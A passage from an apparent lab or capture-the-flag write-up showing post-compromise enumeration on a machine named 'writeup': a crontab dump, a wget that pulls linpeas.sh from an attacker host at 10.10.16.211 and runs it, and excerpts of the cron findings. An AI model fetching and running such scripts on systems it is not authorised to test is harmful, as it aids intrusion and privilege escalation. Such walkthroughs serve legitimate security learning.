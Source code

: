 ```bash
# m h dom mon dow user	command
17 *	* * *	root    cd / && /bin/run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && /bin/run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && /bin/run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && /bin/run-parts --report /etc/cron.monthly )
```

There were a few root processes, including `cron`, but no jobs specified.

## Linpeas

I switched to Linpeas:

```bash
jkr@writeup:/tmp$ cd /tmp && wget http://10.10.16.211:8000/linpeas.sh
--2021-07-15 16:39:22--  http://10.10.16.211:8000/linpeas.sh
Connecting to 10.10.16.211:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 325084 (317K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                                         100%[=============================================================================================================>] 317.46K  1.29MB/s    in 0.2s    

2021-07-15 16:39:23 (1.29 MB/s) - ‘linpeas.sh’ saved [325084/325084]

jkr@writeup:/tmp$ chmod +x linpeas.sh 
jkr@writeup:/tmp$ ./linpeas.sh 
```

### Highlights

```
[+] Cron jobs
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#scheduled-cron-jobs
-rw-r--r-- 1 root root  742 Oct  7  2017 /etc/crontab

/etc/cron.d:
total 16
drwxr-xr-x  2 root root 4096 Apr 19  2019 .
drwxr-xr-x 81 root root 4096 Aug 23  2019 ..
-rw-r--r--  1 root root  702 Apr 19  2019 php
-rw-r--r--  1 root root  102 Oct  7  2017 .placeholder

/etc/cron.daily:
total 36
drwxr-xr-x  2 root root 4096 Apr 19  2019 .
drwxr-xr-x 81 root root 4096 Aug 23  2019 ..
-rwxr-xr-x  1 root root  539 Nov  3  2018 apache2
-rwxr-xr-x  1 root root 1474 Sep 13  2017 apt-compat
-rwxr-xr-x  1 root root  355 Oct 25  2016 bsdmainutils
-rwxr-xr-x  1 root root 1597 Feb 22  2017 dpkg
-rwxr-xr-x  1 root root   89 May  5  2015 logrotate
-rwxr-xr-x  1 root root  249 May 17  2017 passwd
-rw-r--r--  1 root root  102 Oct  7  2017 .placeholder

/etc/cron.hourly:
total 12
drwxr-xr-x  2 root root 4096 Apr 19  2019 .
drwxr-xr-x 81 root root 4096 Aug 23  2019 ..
```